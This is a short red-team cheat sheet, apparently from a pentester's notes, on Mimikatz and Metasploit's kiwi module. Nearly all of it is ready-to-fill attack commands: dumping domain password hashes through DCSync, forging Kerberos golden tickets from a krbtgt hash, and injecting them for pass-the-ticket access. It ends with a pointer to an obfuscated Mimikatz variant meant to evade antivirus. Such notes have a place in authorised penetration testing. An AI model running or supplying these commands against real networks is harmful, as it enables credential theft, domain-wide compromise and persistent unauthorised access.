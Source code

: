 # Using Mimikatz

## Using kiwi with metasploit
```cheat kiwi Get hash as domain admin
dsync_ntlm <domain>\\<user>
```

```cheat kiwi Create golden ticket (this will be base64 encoded)
golden_ticket_create -d <domain> -k <krbtgt hash> -s <domain-sid> -u <name, does not have to exist (but can)> -t <filename>
```

```cheat kiwi  Use golden ticket
kerberos_ticket_use <filename>
```

## Using mimikatz under Windows
```cheat mimikatz Dump domain hashes
log
lsadump::dcsync /domain:<domain> /all /csv
```

```cheat mimikatz Create golden ticket
kerberos::golden /user:<name> /domain: <domain> /sid:<domain-sid>  /krbtgt:<krbtgt hash> /ticket:<filename> /groups:<comma seperated groups this 'virtual' user is part of
```

```cheat mimikatz Use golden ticket
kerberos::ptt <filename>
```

## obfuscated versions to avoid av

* https://github.com/DanMcInerney/Invoke-Cats

tags: #windows #redteam #pentest #metasploit #kiwi #mimikatz #privesc 
